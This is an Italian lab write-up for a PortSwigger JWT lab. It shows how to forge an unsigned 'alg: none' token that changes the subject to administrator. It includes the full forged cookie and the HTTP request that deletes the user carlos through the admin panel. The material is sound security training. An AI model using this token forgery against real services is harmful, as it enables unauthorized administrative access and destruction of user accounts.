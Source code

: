 
https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification

Logghiamoci con utente `wiener` e password: `peter`

Ecco il nostro token:

```
Cookie: session=eyJraWQiOiJjYTBjNTA3My04NTYyLTQxM2YtYTE5MC0wZDJkN2ExODU1MjciLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0Mzk0OTk5NSwic3ViIjoid2llbmVyIn0.WnsU9OAdakwCwjTYmMNyheUYiR6l6_KITERY5ml3ZVWGk00QMmf-IfXC3dAbf9NtrJJWVB8Iia4lH8V9JK0uHSbUOWOVlVMaVJ7_iKq4LA_vPeTX9uE-EROyCIqOBeiZNOhsWPKvyJ3nTnzUVxNjYIF_MR9WJ-uNEdOSgw4nfWAoJ9ElaZ2oxkcvyGgl4F9Id4VHHTTKpiEM35RyAUS2vfRpLgCTSsdDHh6hL9ub0HxjJwtzicpC_tqgfrP-FAgEX3enziwJSYa6R5ybTBnEdtJv46EzKZgma7u03tJ3fe0iOaAW71oAiN4ZGN4LAKusULy-aa0fOpP1dNoQpReWTg
```


```
=====================
Decoded Token Values:
=====================

Token header values:
[+] kid = "ca0c5073-8562-413f-a190-0d2d7a185527"
[+] alg = "RS256"

Token payload values:
[+] iss = "portswigger"
[+] exp = 1743949995    ==> TIMESTAMP = 2025-04-06 16:33:15 (UTC)
[+] sub = "wiener"

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```

Sostituiamo `wiener` con `administrator`

Otteniamo un 401 Unauthorized.

Proviamo allora ad impostare la signature su `None` tramite il plugin JWT Editor di Burpsuite:

![](_attachment/Pasted%20image%2020250406153700.png)



risposta

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3165
```

Troviamo nel body il link per cancellare l'utente `carlos`


```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a1900950395848b81826c7600500011.web-security-academy.net
Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0Mzk0OTk5NSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

risposta:

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](_attachment/Pasted%20image%2020250406153814.png)

